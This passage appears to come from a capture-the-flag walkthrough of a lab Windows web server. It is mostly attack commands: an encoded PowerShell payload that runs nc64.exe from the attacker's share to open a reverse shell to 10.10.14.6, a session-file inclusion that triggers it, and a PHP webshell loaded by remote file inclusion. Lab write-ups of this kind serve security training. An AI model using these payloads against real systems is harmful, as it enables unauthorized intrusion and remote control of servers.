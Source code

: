     
    
    root@kali# echo 'cmd /c "\\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443"' | iconv -f ascii -t utf-16le | base64 -w0
    YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgA2AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgA2ACAANAA0ADMAIgAKAA==
    

Now, I’ll register as:

    
    
    <?php echo `powershell /enc YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgA2AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgA2ACAANAA0ADMAIgAKAA==` ?>
    

Once I log in, I can include the session data:

    
    
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr'
    

This just hangs, but I’ve got a shell on my listener:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:49706.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\inetpub\wwwroot\blog>whoami
    whoami
    nt authority\iusr
    

### path 2 - RFI

With the RFI identified earlier, I can include a simple PHP webshell,
`cmd.php`:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

Now I can request that shell, and include a `cmd` parameter:

    
    
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\cmd.php' --data-urlencode 'cmd=whoami' | sed -n '/<\/html>/,/<\/body>/p'                       
    </html>
    nt authority\iusr
    </body>
    </html>
    
